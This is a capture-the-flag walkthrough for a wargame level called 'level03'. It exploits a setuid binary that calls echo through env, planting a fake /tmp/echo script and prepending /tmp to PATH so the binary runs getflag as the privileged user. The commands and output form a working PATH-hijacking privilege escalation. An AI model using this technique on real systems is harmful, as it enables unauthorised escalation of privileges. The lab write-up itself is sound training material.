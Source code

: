 # Level03
## Step by step
- In the user `level03` home directory, there is a file
  ```bash
  > ls -la
  -rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
  ```
- The file `level03` is an executable with `s` permission, that means, that the program will be run by the owner of the file, in this case `flag03`
- When we execute the binary it print something
  ```bash
  > ./level03
   Exploit me
  ```
- With the command `strings` we can get all the printable characters sequences that are at least 4 characters long
  ```bash
  > strings level03
  /lib/ld-linux.so.2
  KT{K
  __gmon_start__
  libc.so.6
  _IO_stdin_used
  setresgid
  setresuid
  system
  getegid
  geteuid
  __libc_start_main
  GLIBC_2.0
  PTRh
  UWVS
  [^_]
  /usr/bin/env echo Exploit me
  ;*2$"
  GCC: (Ubuntu/Linaro 4.6.3-1ubuntu5) 4.6.3
  /home/user/level03
  /usr/include/i386-linux-gnu/bits
  /usr/include/i386-linux-gnu/sys
  level03.c
  ...
  ```
- The binary use `echo` to print `Exploit me`, but we can change the binary it use to execute `getflag` as the `flag03` user
  ```bash
  >  cat <<hey >/tmp/echo
  > #!/bin/bash
  > getflag
  > hey

  > export PATH=/tmp:$PATH

  > ./level03 
  Check flag.Here is your token : XXX
  ```

  

